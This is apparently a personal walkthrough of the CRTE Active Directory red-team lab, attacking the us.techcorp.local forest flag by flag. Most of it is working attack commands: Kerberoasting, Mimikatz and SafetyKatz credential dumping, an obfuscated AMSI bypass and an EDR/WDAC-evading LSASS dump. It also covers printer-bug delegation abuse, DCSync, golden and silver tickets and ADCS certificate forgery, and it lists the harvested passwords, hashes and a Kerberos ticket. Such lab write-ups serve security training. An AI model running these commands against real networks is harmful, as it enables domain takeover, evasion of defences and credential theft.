


# CRTE Lab

## Flag 1,2 - Domain Enumeration

Enumerate following for the us.techcorp.local domain:

* Users&#x20;
* &#x20;Computers&#x20;
* &#x20;Domain Administrators&#x20;
* &#x20;Enterprise Administrators&#x20;
* &#x20;Kerberos Policy

Use BloodHound to do it or ad module

## Flag 3,4 - Trust Enumeration

To list only the external trusts using PowerView:


```powershell
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
```


<figure><figcaption></figcaption></figure>

The trust is bidirectional, so enumerate the trust that eu.local has

```powershell
Get-ForestTrust -Forest eu.local
```

<figure><figcaption></figcaption></figure>

## FLAG 5/6/7 - Name of the service for privesc on local machine

* Exploit a service on studentx and elevate privileges to local administrator.
* Identify a machine in the domain where studentuserx has local administrative access due to group membership.

Use PowerUp to find a privesc

```powershell
Invoke-AllChecks
```

<figure><figcaption></figcaption></figure>

And exploit the service

```powershell
Invoke-ServiceAbuse -Name 'ALG' -UserName us\studentuser64
```

Now log off and log on to gain admin privileges

Import PowerView to find computer wjere we have access as Local Admin

```powershell
Find-LocalAdminAccess
```

Nothing but you can see from bloodhound that the group studentuser is enrolled in the Managers group

Managers group has generic all on MachineAdmins Group, so with AdModule we can add ourself to this group.

```powershell
Add-ADGroupMember -Identity MachineAdmins -Members studentuser64 -Verbose
```

<figure><figcaption></figcaption></figure>

Now relogin to update the permissions and try to access to us-mgmt

```powershell
winrs -r:us-mgmt whoami
```

<figure><figcaption></figcaption></figure>

By enumerating the groups which we belongs we can se that in the mgmt OU we are Administrators.

## Flag 8 - SevicePrincipalName of the user serviceaccount that we Kerberoasted

Using PowerView see if there are any SPN


```powershell
Get-DomainUser –SPN
```


<figure><figcaption></figcaption></figure>

the kerberoast attack can be done in wto ways

#### Rubeus and John

First use Argspli.bat to avoid detection in the cmd

<figure><figcaption></figcaption></figure>

Now load Rubeus with the Loader to avoid detection and launch an attack against ServiceAccount


```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:serviceaccount /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```


<figure><figcaption></figcaption></figure>

Now crackit with john. The password is _Password123_

#### KerberosRequestorSecurityToken.NET class from PowerShell, Mimikatz and tgsrepcrack.py

We can also use the KerberosRequestorSecurityToken .NET class from PowerShell to request a ticket.


```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```


<figure><figcaption></figcaption></figure>

Use Mimikatz to extract the ticket

```powershell
Invoke-Mimi -Command '"kerberos::list /export"'
```

<figure><figcaption></figcaption></figure>

and crack it


```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-60210000-studentuser64@USSvc~serviceaccount-US.TECHCORP.LOCAL.kirbi
```


## Flag 9 - Password for supportXuser that we Kerberoasted&#x20;

With PowerView see if we have any other interesting ACL with studentusers group:


```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```


<figure><figcaption></figcaption></figure>

Since studentuser64 has GenericAll rights on the support64user, let’s force set a SPN on it. Using ActiveDirectory module:




```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'} -Verbose
```





```
Set-ADUser -Identity Support64User -ServicePrincipalNames @{Add='us/myspn64'} -Verbose
```




Check if SPN is set up now


```powershell
Get-ADUser -Identity support64user -Properties ServicePrincipalName | select ServicePrincipalName
```



If nothing showed might work the same


Now crack it. The password is _Desk@123_

## Flag 10/11/12 -  LAPS

To enumerate LAPS import the module AdmPwd.PS.psd1, AD-Module and use the script Get-LapsPermissions.ps1

<figure><figcaption></figcaption></figure>

Also powerview can be used


```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```


<figure><figcaption></figcaption></figure>

So, the studentusers group can read password for LAPS managed Administrator on the us-mgmt machine. Let's try it using the Active Directory module, LAPS module and PowerView.






```powershell
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```





```powershell
Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd
```




```powershell
Get-AdmPwdPassword -ComputerName us-mailmgmt
```



<figure><figcaption></figcaption></figure>

The password is _a\[9\&Dhs./tu-]W_

_So with this password let's try to access us-mailmgmt_

```powershell
winrs -r:us-mailmgmt -u:.\administrator -p:a[9&Dhs./tu-]W cmd
```

<figure><figcaption></figcaption></figure>

Now extract credentials of interactive logon sessions and service accounts from us-mailmgmt

To do so we need to use PS-Session and Invoke-mimi.

First open a PS-Session on US-mailmgmt


```powershell
$passwd = ConvertTo-SecureString 'a[9&Dhs./tu-]W' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
```


Enter the session and bypass the AMSI

```powershell
Enter-PSSession $mailmgmt
```


```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```


<figure><figcaption></figcaption></figure>

Now launch Invoke-Mimi throught the session


```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt
```


Enter the session again and dump dhe creds

```powershell
Invoke-Mimi -Command '"sekurlsa::keys"'
```

<figure><figcaption></figcaption></figure>

Provisioningsvc aes: _a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a_

Provisioningsvc rc4: _44dea6608c25a85d578d0c2b6f8355c4_

## Flag 13/14 - GMSa

To enumerate gMSAs, we can use the ADModule

```
Get-ADServiceAccount -Filter *
```

<figure><figcaption></figcaption></figure>

Enumerate the Principals that can read the password blob:


```powershell
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```


<figure><figcaption></figcaption></figure>

Recall that we got secrets of provisioning svc from us-mailmgmt. Start a new process as the provisioningsvc user.


```powershell
./Rubeus.exe asktgt /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


Now launch powerhsell and import the AD-Module to get the password blob


```powershell
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
```


Now import ds internals to decrypt the blob

```powershell
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
```

Now convert it to NT

```powershell
ConvertTo-NTHash -password $decodedpwd.SecureCurrentPassword
```

<figure><figcaption></figcaption></figure>

RC4: 123fef24212a5617ed8234dd54a4d7ad&#x20;

## FLAG 15/16/17 - WDAC e MDE

Now start a process as jumpone


```powershell
./Rubeus.exe asktgt /user:jumpone /rc4:123fef24212a5617ed8234dd54a4d7ad /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


<figure><figcaption></figcaption></figure>

Now launch a powershell session with invishell and use Find-PSRemotingLocalAdminAccess.ps1 to find where this user has damin access

```powershell
Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose
```

<figure><figcaption></figcaption></figure>

Let us now test to see if an EDR is enabled on the target using Invoke-EDRChecker.ps1 as follows. Run the following command in the process spawned as jumpone:

```
Invoke-EDRChecker -Remote -ComputerName us-jump3
```

<figure><figcaption></figcaption></figure>

EDR is enabled. Access us-jump3 using winrs. We need to check also if other security measure are in place like wdac.


```powershell
winrs -r:us-jump3 "powershell Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard"
```


<figure><figcaption></figcaption></figure>

We can now attempt to copy and parse the WDAC config deployed on us-jump to find suitable bypasses and loopholes in the policy.

```powershell
dir \\us-jump3.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity
```

<figure><figcaption></figcaption></figure>

We find a deployed policy named DG.bin.p7 / SiPolicy.p7b in the CodeIntegrity folder. Copy either policy binary back over to our studentVM.


```powershell
copy \\us-jump3.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools
```


Now import CIPolicyParser.ps1 to parse the copied policy binary


```powershell
ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml
```


<figure><figcaption></figcaption></figure>

Noa analyze it to findout that vmware Workstation has allow permission to execute

<figure><figcaption></figcaption></figure>

We can now attempt to perform an LSASS dump on the target us-jump using a covert technique / tool to bypass MDE along with WDAC.

We will be using the mockingjay POC (loader / dropper) along with nanodump shellcode to bypass MDE detections and perform a covert LSASS Dump. To bypass WDAC we edit File Attributes to match the Product Name: "Vmware Workstation" on all required files (exe / dlls) of the mockingjay POC.


```powershell
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\msvcp140.dll --set-version-string "ProductName" "Vmware Workstation"
```



```powershell
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140.dll --set-version-string "ProductName" "Vmware Workstation"
```



```powershell
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140_1.dll --set-version-string "ProductName" "Vmware Workstation"
```



```powershell
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mockingjay.exe --set-version-string "ProductName" "Vmware Workstation"
```



```powershell
C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mscorlib.ni.dll --set-version-string "ProductName" "Vmware Workstation"
```


Now compress them in a zip


```powershell
Compress-Archive -Path C:\AD\Tools\mockingjay\msvcp140.dll,C:\AD\Tools\mockingjay\vcruntime140.dll,C:\AD\Tools\mockingjay\vcruntime140_1.dll,C:\AD\Tools\mockingjay\mockingjay.exe, C:\AD\Tools\mockingjay\mscorlib.ni.dll -DestinationPath "C:\AD\Tools\mockingjay\mockingjay.zip"
```


Now convert nanodump into compatible shellcode using donut along with the args: spoof- callstack (-sc), fork LSASS process before dumping (-f) and output the dump to a file named nano.dmp (--write) to make it dump LSASS in a covert way.


shellcode dosen't need to be edited using rcedit to bypass WDAC.



```powershell
C:\AD\Tools\mockingjay\donut.exe -f 1 -p " -sc -f --write nano.dmp" -i C:\AD\Tools\mockingjay\nanodump.x64.exe -o C:\AD\Tools\mockingjay\nano.bin
```


<figure><figcaption></figcaption></figure>

Confirm that the mockingjay poc and nano.bin shellcode is undetected by AV using AmsiTrigger / DefenderCheck:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">C:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\mockingjay.exe
<strong>C:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\nano.bin
</strong></code></pre>

Now host mockingjay.zip and nano.bin on our student VM using HFS. Make sure firewall is disabled before doing so. From the process running with privileges of jumpone, connect to us-jumpX and then download mockingjay.zip using msedge.


Using commonly abused binaries such as certutil for downloads, will result in a detection on MDE.



Make sure to disable firewall on the hosting machine



```
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --incognito http://192.168.100.64/mockingjay.zip
```


Now extract the contents from the mockingjay.zip archive using tar and attempt to perform an LSASS dump invoking the nano.bin shellcode hosted on our studentvm webserver.

```
mockingjay.exe 192.168.100.64 "/nano.bin"
```

An LSASS dump file is written called nano.dmp with an invalid signature since a normal LSASS dump on disk could trigger an MDE detection. We will now exfiltrate this dump file, restore and parse it for credentials.

Copy it on the local machine


```powershell
copy \\us-jump3.US.TECHCORP.LOCAL\c$\users\jumpone$\Downloads\nano.dmp C:\AD\Tools\mockingjay
```


Now restore the signature

```powershell
.\restore_signature.exe .\nano.dmp
```

Now use SafetyKatz with the argsplit method for the word "sekurlsa::minidump" to extract the credentials


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% C:\AD\Tools\mockingjay\nano.dmp" "sekurlsa::keys" "exit"
```


<figure><figcaption></figcaption></figure>

pawadmin aes: _a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30_\
_RC4:_ 36ea28bfa97a992b5e85bd22485e8d52

appsvc pwd: Us$rT0AccessDBwithImpersonation\
aes: b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335\
rc4: 1d49d390ac01d568f0ee9be82bb74d4c

webmaster aes: 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0\
rc4: 23d6458d06b25e463b9666364fb0b29f

On us-jump3, we can check for certificates that can be used later. Spawn a process with the privileges of pawadmin:


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:pawadmin /domain:us.techcorp.local /aes256:a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30 /opsec /createnetonl:C:\Windows\System32\cmd.exe /show /ptt
```


<figure><figcaption></figcaption></figure>

Run the below commands in the new process to enumerate the LocalMachine certificate store:

```
certutil -store My
```

Serial Number: 770000002116e9d99c3a4ceaf1000000000021

<figure><figcaption></figcaption></figure>

export it


```
certutil -exportpfx -p SecretPass@123 770000002116e9d99c3a4ceaf1000000000021 C:\Users\pawadmin\Downloads\pawadmin.pfx
```


<figure><figcaption></figcaption></figure>

And copy it on local machine


```powershell
copy \\us-jump3.US.TECHCORP.LOCAL\c$\users\pawadmin\Downloads\pawadmin.pfx C:\AD\Tools\
```


## Flag 18/19/20/21 - Unconstrained Delegation

First, we need to find out the machines in us.techcorp.local with unconstrained delegation. We can use PowerView  for that. I used BloodHound.

```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

<figure><figcaption></figcaption></figure>

Now use the credentials of webmaster extracted before to check if we have admin rights on this machine


```
 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


On the new spawned process run invishell and use Find-PSRemotingLocalAdminAccess.ps1 to check for the admin rights

```powershell
Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose
```

<figure><figcaption></figcaption></figure>

Now, we will use the printer bug to force us-dc to connect to us-web.&#x20;





Let's first copy Loader.exe to us-web to download and execute Rubeus in the memory and start monitoring for any authentication from us-dc.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>echo F | xcopy C:\AD\Tools\Loader.exe \\us-web\C$\Users\Public\Loader.exe /Y
</strong></code></pre>

Now create a tunnel to download the file


```powershell
netsh interface portproxy add v4tov4 listenport=8080  listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.64
```


And use rubeus with the monitor option


```powershell
C:\Users\Public\Loader.exe -path  http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:US-DC$ /interval:5  /nowrap
```





```powershell
$usweb1 = New-PSSession us-web
Copy-Item -ToSession $usweb1 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\Public
Enter-PSSession $usweb1
cd C:\Users\Public
.\Rubeus.exe monitor /targetuser:US-DC$ /interval:5 /nowrap
```




<figure><figcaption></figcaption></figure>

Using either of the above methods, once we have Rubeus running in the monitor mode, we can start MS-RPRN.exe to force connect us-dc to us-web and thereby abuse the printer bug:

```
C:\AD\Tools\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

<figure><figcaption></figcaption></figure>

Now use the ticket to gain a session


```
 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /ticket:doIFvDCCBbigAwIBBaEDAgEWooIEtDCCBLBhggSsMIIEqKADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCBGIwggReoAMCARKhAwIBAqKCBFAEggRMaPbocsG/tcZialIisEwS7ddByeYtDvo26euMi2wawAJiCYHp9GIZIonlDhnjLEo+txhXSEC4xOIF9g8ceh3lExlbofN+FMFUZShZAkozLvQm4KVwQeEkhip4qPVyXU4GZk3gAuPUvxbhlgrvj0okeU+CtxCq21e6gvNt9xn99L7072OjCNowRMBW/zGmyEFiC/seUVcH7iYdv1EKGrb94EM9XYhB3sQiDr+HCV1YVvR6qn3HBev/q9qMQ4jrBFr4LGid0CbQxkAjNpVgOD/1PiMznpqQGC5I3RrxMfuEogyGySftYTogbMtNILMRe3Ervk+pX8f6Z6L5SF2gGBdYUh+Fr7+rWWRC1NnCf9Bd9EAWigAQZD5KBpQ5vSz+tBtNKKzsI0J1NrFzUKFrS6EFWZsoNLUwjKOiDHVmnJ8DQMhij7ImNfOFPsKUMeXap15usc8rorz1pcORkzZZsYe02H9pRA3sCvshwkL2l+VRkaG8MZDOAsQky28nyhhMDldSpyDbqGVs7Ql138newyUQuzicejFSC+pFiY7mmsb/wPznYI7ZcD09kYB0IeB7OcL/5JlYqXYP8j4Id72CRhtaZCPe8BKCVeI09THMLYKkg+WPPNycLPC0dpSckU+f9USuvxZcn/ez6Oef2nl4GW2bawgn126P5IJVrf+m3wXavm8WMRtk1hIecmJ2N2G/+6WcphjZs/vuKt7y6uITnvsUF++u41oCJO8VogvWRm8HvSx3dmYB+0I12OXefLg3SxtmjTjinGJSJ3chDbCaugC95vlpncn51CcHzRA7+BhaD3awZUex4fRaWMYarvF2xGKYzOO9u31I9lAmFmfgl6ftCDr5qDYFZUNoEqQgwzoWVqyjyLSBSaALbVHQVpOPE06zIt/DS4op+XTRJau9wXUxXnz0ZiMIMXqRmLbbektzeZVluf8hyGU9H2CrSui4XhpPuJyRN/8USSYILsZmOmd0Mz1FhGk8xrJLZdc3UN0O4ucsO3EPnjgrtAetrEzDsFdc72QUqeHN45k9LksEqHFjG8YAWeQFJOSPPEGj9nWWDqhEOKyo2R3isD0Dv64H7WVAp2sOKDVCLoYgxd80QCU7zrtF4g8ZJVKtI98dJKigFc1C0N2InUkKNSJ2ygP8JTZm0fT99XFpt7MZxI3Lez6Pet1Xkd/AvFmNkkdDvdRHEkVI+Nj5ySnqREnF++lVasB/oZEYfYp4lAvWfEqcrxzc2SAm22wKKp4T3ThNjgYI1piIb3HZY8g/2DMglSk+DPImwMlXsIc0+K/MtPfgPqFzzGq5y1yecJXZ1431B0uiPt+O7LwvNQQXcAdNsw2G3YpT5391h5FIyfu98pct3MXPzOCAk0SbNCy5npFtPAORUXRAi8C9w9ZZOgYq2esm0K89SGif0siiA95QjbEHKf7+dNfK4YnOx2MNRpVtwChiA5nsW/+BR86+8AR6LJqjgfMwgfCgAwIBAKKB6ASB5X2B4jCB36CB3DCB2TCB1qArMCmgAwIBEqEiBCDtjM6US9v0RLKjK0PbAN+1gUDjzBx/eIUcXhg6cCCXXKETGxFVUy5URUNIQ09SUC5MT0NBTKITMBGgAwIBAaEKMAgbBlVTLURDJKMHAwUAYKEAAKURGA8yMDI0MDQyOTA0MTA0NlqmERgPMjAyNDA0MjkxNDEwMDhapxEYDzIwMjQwNTA2MDQxMDA4WqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRVVMuVEVDSENPUlAuTE9DQUw=
```


And run a DCSync attack against the DC


```
 C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::dcsync /user:us\krbtgt" "exit"
```


krbtgt aes: _5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5_\
RC4:  _b0975ae49f441adc6b024ad238935af5_

## Flag N/A - Constrained Delegation

Enumerate the objects in our current domain that have constrained delegation enabled with the help of the Active Directory module from InvisiShell:


```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```


<figure><figcaption></figcaption></figure>

Recall l that we extracted credentials of appsvc from us-jump, let’s use the AES256 keys for appsvc to impersonate the domain administrator - administrator and access us-mssql using those privileges. Note that we request an alternate ticket for HTTP service to be able to use WinRM.

## Flag 22 to 29 - Write/GenericWrite permission over Computer Object

Extract credential from us-mgmt that we already own with safetykatz


```powershell
$usmgmt1 = New-PSSession us-mgmt
Copy-Item -ToSession $usmgmt1 -Path C:\AD\Tools\SafetyKatz.exe -Destination C:\Users\Public
Enter-PSSession $usmgmt1
cd C:\Users\Public
.\Safetykatz.exe -args sekurlsa::ekeys exit
```


mgmtadmin aes: 32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f\
RC4: e53153fc2dc8d4c5a5839e46220717e5

Now using powerview lt's see if he has some interesting ACLs


```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin'}
```


<figure><figcaption></figcaption></figure>

We are using our student VM computer object and not the studentuserx as SPN is required for RBCD

Start a process with privileges of mgtmadmin. Use ArgSplit.bat on the student VM to encode “asktgt”&#x20;


```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:mgmtadmin /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f  /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


Run Invishell and import AD-Module. Now set RBCD to the student vm:


```powershell
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount student64$ -Verbose
```


Now we need the aes of the student vm. Use SafetyKatz


Use the one with SID = S-1-5-18



```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::ekeys" "exit"
```


student64$ aes: 6f7e997ae3f3fc5265ce2961a829227873908e821c30b47fbf0004bc57f21825

now use rubeus with s4u to create a ticket and open a session


```powershell
 C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:student64$  /aes256:6f7e997ae3f3fc5265ce2961a829227873908e821c30b47fbf0004bc57f21825 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```


<figure><figcaption></figcaption></figure>

Now copy the NetLoader on the target and use it to launch SafetyKatz and extract credetials


```powershell
xcopy C:\AD\Tools\Loader.exe \us-helpdesk\C$\Users\Public\Loader.exe /Y
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.64
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args %Pwn% "exit"
```


<figure><figcaption></figcaption></figure>

helpdeskadmin aes: _f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534_

Now create and import a ticket to look if this user has admin privilege on some machine

```powershell
Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose
```

<figure><figcaption></figcaption></figure>

## Flag 29 - Golden Ticket

Using the krbtgt aes previously obtained to craft a silver ticket


```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args golden /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /ldap /sid:S-1-5-21-210670787-2521448726-163245708 /user:Administrator /printcmd
```


<figure><figcaption></figcaption></figure>

Now use the generated command to print a golden ticket nad import it

<figure><figcaption></figcaption></figure>

Now use PS-Remoting to dump all the domain secrets

```
$sess = New-PSSession us-dc.us.techcorp.local
Enter-PSSession -Session $sess
```

Now bypass amsi and import Invoke-Mimi

<pre data-overflow="wrap"><code>Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
<strong>Enter-PSSession -Session $sess
</strong>Invoke-Mimi -Command '"lsadump::lsa /patch"'
</code></pre>

<figure><figcaption></figcaption></figure>

us-dc$ rc4:  _f4492105cb24a843356945e45402073e_

## Flag 30 - Silver Ticket

Create a silver ticket for the dc machine using the rc4 previously obtained


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args silver /service:http/us-dc.us.techcorp.local /rc4:f4492105cb24a843356945e45402073e /ldap /sid:S-1-5-21-210670787-2521448726-163245708 /user:Administrator /domain:us.techcorp.local /ptt
```


## Flag 31 - DCSync

Check if we have DCSync rights with PowerView

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser64"}
</strong></code></pre>

We got no output, so we don't have permissions.

Set DCSync right on studentuser64 using a ticket from a domain administrator


```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```



```powershell
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser64 -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```


And now i could DCSync with studentuser64

## Flag 32/33/34 - ADCS

To enumerate use Certify

```
C:\AD\Tools\Certify.exe /find
```

<figure><figcaption></figcaption></figure>

We already have pwadmin and with the enrollment rights we can request a crtificates for any user.


```
C:\AD\Tools\Rubeus.exe asktgt /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:SecretPass@123 /nowrap /ptt
```



```
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```


<figure><figcaption></figcaption></figure>

Now copy the certificate and convert it using the suggested command


```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -outC:\AD\Tools\DA.pfx
```


And now request a ticket using the certificate


```
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:pass  /nowrap /ptt
```


<figure><figcaption></figcaption></figure>

## Flag 35 - Unconstrained Delegation over parent domain

Remember that webmaster has unconstrained delegation, so we can use it to obatin a ticket for a enterprise admin. So craft a ticket as webmaster and transfer the loader on us-web to start rubeus as a monitor


```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.64
```



```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:TECHCORP-DC$ /interval:5 /nowrap
```


<figure><figcaption></figcaption></figure>

Now by abusing the printer bug we can request a ticket with MS-RPRN.exe

```
C:\AD\Tools\MS-RPRN.exe \\techcorp-dc.techcorp.local \\us-web.us.techcorp.local
```

The next steps are the same from the previous Unconstrained Delegation.

## Flag 36/37/38 - Azure Integration

We can find out the machine where Azure AD Connect is installed by looking at the Description of special account whose name begins with MSOL\_.

Using AD-Module:


```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```


<figure><figcaption></figcaption></figure>

We already have access to US-Adconnect as helpdeskadmin so we can extract MSOL account with adconnect.ps1

<pre data-overflow="wrap"><code><strong>C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args asktgt /domain:us.techcorp.local /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
</strong></code></pre>

Now open a invishell session on us-adconnect


```
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-adconnect\C$\Users\helpdeskadmin\Downloads\InShellProf.dll /Y
```



```
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-adconnect\C$\Users\helpdeskadmin\Downloads\RunWithRegistryNonAdmin.bat /Y
```


